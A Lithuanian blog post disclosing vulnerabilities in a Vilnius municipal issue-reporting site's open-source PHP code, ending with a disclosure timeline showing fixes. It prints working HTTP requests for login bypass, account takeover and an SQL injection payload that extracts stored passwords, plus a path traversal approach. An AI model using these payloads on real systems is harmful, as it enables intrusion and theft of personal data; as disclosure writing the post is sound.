 ```yaml
---
layout:     post
title:      "Kodėl hakeriai nemoka baudų? 2-oji dalis."
date:       2019-03-22 12:00:00
categories: HackAndTell TvarkauMiesta
cover:      TM2.png
permalink:  /lt/blog/kodel-hakeriai-nemoka-baudu-2
---
```

Po praeito [straipsnio](/lt/blog/kodel-hakeriai-nemoka-baudu) kai kas atkreipė mano dėmesį į tai, kad [tvarkaumiesta.lt](https://www.tvarkaumiesta.lt/) (toliau TM) kodas yra atviras ir netgi galima pasižiūrėti [kaip buvo ištaisyta saugumo skylė](https://bitbucket.org/emiestas/tvarkau-miesta_moved/commits/f03a936134a7e27982df54350a8960bdb04ea05a). Tai paskatino mane paanalizuoti TM giliau.

> tl;dr: Radau saugumo pažeidimų kurie leido pilną prieigą prie puslapio duomenų bazės su vartotojų asmens kodas ir kontaktais, prisijungimą prie savivaldybės vidinės dokumentų valdymo sistemos, prieigą prie privačių šifravimo raktų naudojamų darbui su [e.valdžios vartais](https://www.epaslaugos.lt/portal/login) ir dar daugiau.

Visų pirma noriu pasakyti, kad programinio kodo atvirumas nedaro puslapio nei mažiau, nei daugiau saugiu. Tai tik padidina skaidrumą kuris yra naudingas ir blogiečiams ir gėriečiams.

Pasižiūrėjus į pataisymą pasidarė aišku kam tas antras parametras `oid`. TM turi savo registruotų pranešimų duomenų bazę, bet tuo pačiu metu dirba ir su vidine savivaldybės dokumentų valdymo sistema Avilys. `Oid` yra dokumento numeris Avilio sistemoje. Programuotojai pataisė skylę pridėję pamirštą patikrinimą ar pranešimą norintis ištrinti vartotojas yra jo kūrėjas:

[![Pranešimas](tmfix.png "Pranešimas")](tmfix.png)

Patikrinimas buvo standartinis, toks pats kaip visur kitur programoje. Tik viena problema - buvo tikrinamas TM pranešimo `id`, bet ne Avilio `oid`. Vartotojas galėjo sukurti savo pranešimą ir nusiųsti modifikuotą užklausą ištrinti savo `id`, bet svetimą `oid`. Tai paliktų svetimą pranešimą TM, bet ištrintų jį savivaldybėje. Ši loginė patikrinimo klaida egzistavo visoms operacijoms, ne tik trinimui. Mano nuomone `oid` išvis neturėtų būti rodomas vartotojui.

Tiesa sakant, išeities kodas šiai saugumo skylei atrasti net nebuvo būtinas. Viena iš taisyklių tinkamų bet kokiam testavimui yra nedaryti prielaidų “ko gero jie apie tai pagalvojo” ir “kitaip greičiausiai neveiks”. Padariau prielaidą, kad `id` turi atitikti `oid` ir praleidau klaidą. Galimybė pasižiūrėti į kodą tik išryškino klaidas.

Bet tam, kad leistų ištrinti pranešimą reikia būti registruotu vartotoju ir pirmą kartą reikia jungtis per valdžios vartų portalą. Ar yra būdas tai apeiti? Mano dėmesys nukrypo į login.php. Pastebėjau, kad nusiuntus specialią prisijungimo su Facebook ar Google užklausą TM paslaugiai įleidžia vidun be jokios registracijos:

```
POST /login.php HTTP/1.1
...
fb_response_id=abc&type=login
```

Taip pat pastebėjau būdą kaip perimti pranešimų autorystę iš bet kurio vartotojo:

```php
else if($_POST['type']=='join'){
			updateUserInfo($_SESSION['USER_ID'],$_POST['fb_response_id'],'fb');
			updateProblemsChangeUser($_POST['user_to_join'],$_SESSION['USER_ID']);
			deleteUser($_POST['user_to_join']);
}
```

Tereikia išsiųsti sekančią užklausą ir visi jo pranešimai bus priskirti jums, o jo vartotojas ištrintas:

```
POST /login.php HTTP/1.1
...
fb_response_id=abc&type=join&user_to_join=123
```

Šitas būdas nors veiksmingas, bet brutalus - svetimo vartotojo id aš nežinau, o spelioti arba periminėti absoliučiai visus nenoriu.

[Gitignore failas](https://bitbucket.org/emiestas/tvarkau-miesta_moved/src/6c100468d919a59e9c4576906a7356e3c0694087/.gitignore?at=master&amp;fileviewer=file-view-default) pasufleravo kokios TM direktorijos vis dėlto nėra atviro kodo ir kur ieškoti serverio log failo. Beje jį peržiūrėti galėjo bet kas, tereikėjo įvesti naršyklėje [https://tvarkaumiesta.lt/logs/nginx.log](https://tvarkaumiesta.lt/logs/nginx.log), bet nieko naudingo sau ten neradau. Užtat

```php
$xmlsec = new xmlsec(dirname(__FILE__) . '/viisp/keys.xml', dirname(__FILE__) . '/temp/');
```

atvedė prie [privataus kriptografinio rakto](https://tvarkaumiesta.lt/viisp/keys.xml), naudojamo užklausų siunčiamų į e.valdžios portalą TM vardu pasirašymui. Jį, beje, irgi galėjo parsisiųsti bet kas.

Atviras kodas tai ir atvira pakeitimų istorija. Vartotojų nuotraukoms ir kitiems dokumentams saugoti TM naudoja [Minio](https://www.minio.io/). 2017-ųjų spalį programuotojas [pašalino iš kodo prisijungimo prie Minio kodus](https://bitbucket.org/emiestas/tvarkau-miesta_moved/diff/class/myFunctions.php?diff2=c0cffd37c077&amp;at=map):

[![MinioKeys](miniokeys.png "MinioKeys")](miniokeys.png)

bet patingėjo juos pakeisti, nes... niekas gi nesužinos. Bet blogiausia pasirodė tai, kad jų net nereikėjo žinoti - bet kas galėjo atsidaryti naršyklėje pvz. [https://minio.vilnius.lt/minio/answers.vilnius/](https://minio.vilnius.lt/minio/answers.vilnius/) ir parsisiųsti laiškus su potencialiai asmenine informacija.

Jeigu programuotojai ir padarė ką teisingai, tai buvo sprendimas 2018-ųjų vasarį perrašyti darbą su duomenų baze ir naudoti parametrizuotas užklausas. Žiūrėdamas į tai, kaip saugomi vartotojų duomenys ir prisijungimo prie Avilio slaptažodžiai, jaučiausi kaip katinas stebintis akvariumą su žuvytėmis. Visas bendravimas su duomenų baze vyko per pagalbinę [MysqliDb](https://bitbucket.org/emiestas/tvarkau-miesta_moved/src/ea84d88c7b29acfbbbc2777a02205e0d8fcfa277/class/Database.php?at=11332&amp;fileviewer=file-view-default) klasę. Nors kode nebuvo užuominų, kad tai trečios šalies atviras kodas, greita paieška rado [šį GitHub projektą](https://github.com/ThingEngineer/PHP-MySQLi-Database-Class). Buvo akivaizdu, kad tai tas pats kodas, tik TM versija yra šiek tiek senesnė. Palyginęs failus ir peržiūrėjęs istoriją naujausioj versijoj neradau jokių saugumo klaidų pataisymų, kuriuos galima būtų panaudoti. Vienintelis šansas buvo surasti ką nors naujo pačiam. Po kiek laiko kai ką aptikau:

```php
public function where($whereProp, $whereValue = 'DBNULL', $operator = '=', $cond = 'AND'){
        // forkaround for an old operation api
        if (is_array($whereValue) && ($key = key($whereValue)) != "0") {
            $operator = $key;
            $whereValue = $whereValue[$key];
        }
        if (count($this->_where) == 0) {
            $cond = '';
        }
        $this->_where[] = array($cond, $whereProp, $operator, $whereValue);
        return $this;
}
```

Įtartinas patikrinimas naudojo masyvo indeksą kaip operatorių formuoti SQL sakinį jei jis nebuvo nulis. Šita funkcija paprastai naudojama taip:

```php
$db->where('ID', $_POST['id']);

$name = $db->getValue('USERS', 'name');
```

`$_POST['id']` yra vartotojo duomenys kurie perduodami į `$whereValue` ir jei nėra papildomų patikrinimų kaip `is_numeric($_POST['id'])` vartotojas gali įterpti savo SQL sakinį. Pvz: `id[= ? or 1=1 --]=0` Viskas kas yra tarp laužtinių skliaustų yra vykdoma duomenų bazės kaip užklausos dalis. Šiek tiek užtruko išsiaiškinti kaip perduoti masyvą PHP ir surasti patogiausią vietą kur tai padaryti, bet galų gale turėjau:

```
POST /login.php HTTP/1.1
...
fb_response_id%5B%3D%20%3F%20or%201%3D2%20union%20select%20PSW,0,0,0,0,0,0,0,0,0,0,0,0,0,0%20from%20PRS_DVS_CFG%20where%20CITY_ID%20%3d%201%20--%5D=0&type=add
```

Turėjau puikų "orakulą" - užklausos rezultatas buvo patogiai rodomas naršyklės lange:

```php
else if($_POST['type']=='add'){
			$user=getUserByFB($_POST['fb_response_id']);
			if($user){
				echo $user['ID'];
			}
```

Gavau Avilio prisijungimo duomenis visiems miestams, bet pasirodė, kad tik vienintelė Vilniaus savivaldybė laiko savo vidinę dokumentų valdymo sistemą [prieinamą visam pasauliui](https://ivs.vilnius.lt/) (kad ir apsaugotą slaptažodžiu):

[![Avilys](avilys.png "Avilys")](avilys.png)

Atskiro paminėjimo vertas vartotojų slaptažodžių saugojimas duomenų bazėje. TM naudoja MD5 su druska. Pagrindinė problema yra tai, kad MD5 "nulaužimo" greitis perrinkimo būdu yra mažiausiai 25 tūkstančių kartų didesnis, nei moderni saugi alternatyva. Šiuo atveju kuo greičiau, tuo blogiau, nes galimų slaptažodžių perrinkimas turi būti kuo lėtesnis. Šiuolaikinis kompiuteris su viena grafine plokšte nulaužtų sudėtingą aštuonių įvairiausių simbolių slaptažodį per kelias dienas. O yra kompiuterių ir su [aštuoniom grafinėm plokštėm](https://gist.github.com/epixoip/a83d38f412b4737e99bbef804a270c40).

Liko pasiekti paskutinį užsibrėžtą tikslą - gauti slaptus serverio failus kaip `configuration/config.php` arba `viisp/xmlclasstst.php`. Tam galima būtų panaudoti Path Traversal pažeidžiamumą, bet situaciją apsunkino tai, kad failų kopijavimas buvo simetriškas, panašiai kaip:

```php
copy($uploadPath . '/' . _POST['foto'], $minioBucketName . '/' . _POST['foto']);
```

Taigi įterpus vietoj nuotraukos `../configuration/config.php` kopijavimas nepavyktų, nes Minio pusėje nebuvo tokio `configuration` aplanko. Šiuo atveju galima buvo pasinaudoti atskleistu Minio prisijungimo slaptažodžiu ir susikurti ten aplanką reikalingu pavadinimu rankiniu būdu. Dažnai sakoma, kad sistema yra tiek saugi, kiek saugi silpniausia jos grandis. Bet kartais vienas pažeidžiamumas atveria duris kitam.

Chronologija:  
2019.03.08 - Išsiųstas laiškas su rastų problemų aprašymu ir pataisymų rekomendacijomis.  
2019.03.12-21 - Papildomi komentarai dėl pataisymų.  
2019.03.21 - Savivaldybės darbuotojai patikina, kad visi suplanuoti pakeitimai atlikti.  
